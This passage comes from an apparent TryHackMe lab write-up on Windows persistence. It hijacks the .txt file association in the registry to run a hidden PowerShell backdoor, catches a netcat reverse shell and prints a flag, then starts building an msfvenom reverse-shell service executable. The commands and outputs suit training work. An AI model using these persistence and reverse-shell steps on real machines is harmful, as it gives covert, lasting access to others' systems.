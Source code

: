 ```PowerShell
>> Set-Content -Path $scriptPath -Value $scriptContent
PS C:\Users\Administrator>
```
4. We'll go back into the Registry Editor that opened up already and we'll change the **textfile**'s current value data to be `powershell.exe -WindowStyle hidden C:\Windows\System32\<SCRIPT FILE>.ps1 %1`, which will allow our backdoor script to be executed everytime a user open a text file on the compromised machine 

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Default%20Value%20Data.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/New%20Value%20Data.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/New%20Value%20Data%20pt2.png)

5. `nc -lvnp <PORT NUMBER>` from our Linux attack machine to set up our netcat listener that'll listen for any inbound connections
```Bash
root@ip-10-10-173-81:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```

6. Once our netcat listener, from the compromised Windows machine, we'll open any text file to execute our created payload, which ended up doing so and connecting back to our netcat listener on our attack machine 

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/txt%20File%20Opened.png)

```Bash
root@ip-10-10-173-81:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.141.70 49905 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\Desktop>
```
7. `C:\flags\flag6.exe` from our reverse shell to run the **flag6.exe** program, which ended up displaying this task's flag onto our terminal
```PowerShell
C:\Users\Administrator\Desktop>C:\flags\flag6.exe
C:\flags\flag6.exe
THM{TXT_FILES_WOULD_NEVER_HURT_YOU}
```


# Absuing Services

## Creating Backdoor Services

1. Started this room's machine
2. `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACK MACHINE IP> LPORT=<PORT NUMBER> -f exe-service -o rev-svc.exe` from our Linux attack machine to use Metasplout's **msfvenom** to generate a Windows executable for a reverse shell payload that we'll execute on the compromised Windows machine
```Bash
root@ip-10-10-44-151:~# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.44.151 LPORT=9999 -f exe-service -o rev-svc.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe-service file: 48640 bytes
Saved as: rev-svc.exe

```